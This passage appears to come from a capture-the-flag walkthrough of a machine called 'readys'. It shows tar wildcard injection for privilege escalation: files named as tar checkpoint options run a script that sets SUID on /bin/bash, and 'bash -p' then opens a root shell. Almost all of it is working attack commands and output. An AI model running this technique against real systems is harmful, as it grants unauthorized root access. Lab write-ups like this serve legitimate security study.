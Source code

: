 ```bash
alice@readys:/var/www/html$ echo -e '#!/bin/bash\nchmod u+s /bin/bash' > shell.sh
alice@readys:/var/www/html$ echo "" > "--checkpoint-action=exec=sh shell.sh"
alice@readys:/var/www/html$ echo "" > --checkpoint=1
```
{: .nolineno }

Files created

```bash
alice@readys:/var/www/html$ ls -l 
total 228
-rw-r--r--  1 alice alice     1 Sep 14 11:56 '--checkpoint-action=exec=sh shell.sh'
-rw-r--r--  1 alice alice     1 Sep 14 11:56 '--checkpoint=1'
-rw-r--r--  1 alice alice   405 Nov 16  2021  index.php
-rw-r--r--  1 alice alice 19915 Nov 16  2021  license.txt
-rw-r--r--  1 alice alice  7345 Nov 16  2021  readme.html
-rw-r--r--  1 alice alice    32 Sep 14 11:56  shell.sh
```
{: .nolineno }

After waiting for three minutes, the script is executed, granting **SUID** permissions to `/bin/bash`. To spawn a root shell, just type `bash -p` to run a shell in a privileged context.

```bash
alice@readys:/var/www/html$ bash -p
bash-5.0# whoami
root
```
{: .nolineno }
